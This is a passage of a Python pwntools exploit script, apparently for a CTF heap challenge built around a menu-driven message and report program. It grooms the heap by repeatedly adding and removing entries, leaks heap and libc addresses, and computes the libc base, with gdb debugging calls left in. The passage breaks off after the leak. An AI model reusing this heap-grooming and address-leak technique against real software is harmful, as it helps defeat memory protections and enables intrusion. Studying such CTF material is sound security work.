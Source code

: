 ```py
    p.recvuntil("Name: ")
    p.sendline(name)
    
    p.recvuntil("Message: ")
    p.sendline(message)
    if is_remove:
        p.recvuntil("(yes or no)\n")
        p.recvuntil("> ")
        p.sendline("yes")
        
def list():
    p.recvuntil("5. Exit\n")
    p.sendline("3")
    
def remove(name,message):
    p.recvuntil("5. Exit\n")
    p.sendline("4")
    p.recvuntil("Name: ")
    p.sendline(name)
    if message:
        p.recvuntil("Report: ")
        p.sendline(message)
        
# leak libc
# 扔 smallbin
for i in range(9):
    add(str(i).ljust(0xe1,"a"))
add("DL*Support*Center@fl.support.center")
# message("DL*Support*Center@fl.support.center","t"*0x10)
gdb.attach(p)
pause()
for i in range(9):
    remove(str(i).ljust(0xe1,"a"),None)
for i in range(9):
    add(str(i).ljust(0xe1,"a"))

for i in range(8):
    remove(str(i).ljust(0xe1,"a"),b"t"*0x110)
    

remove("DL*Support*Center@fl.support.center",None)
add("DL*Support*Center@fl.support.center")
# gdb.attach(p)
# pause()
message("DL*Support*Center@fl.support.center","t"*0xe1)
remove(str(8).ljust(0xe1,"a"),b"t"*0x110)
p.recvuntil("5. Exit\n")
p.sendline("4")
p.recvuntil("Name: ")
p.sendline("DL*Support*Center@fl.support.center")
p.recvuntil("Report: ")
p.sendline("FL*Support*Center@fl.support.center")
p.recvuntil("delete the sent message: ")
heap_and_libc_leak = p.recv(14)
heap_leak = u64(heap_and_libc_leak[:6].ljust(8,b"\x00"))
libc_leak = u64(heap_and_libc_leak[8:14].ljust(8,b"\x00"))
print(hex(heap_leak))
print(hex(libc_leak))
gdb.attach(p)
pause()
# 0x7ff352201000 0x55cd796de000 0x55cd796f2d10 0x7ff35241bce0
# 0x5572ee099000 0x5572ee0add00
libc_base = libc_leak + 0x201000-0x41bce0
```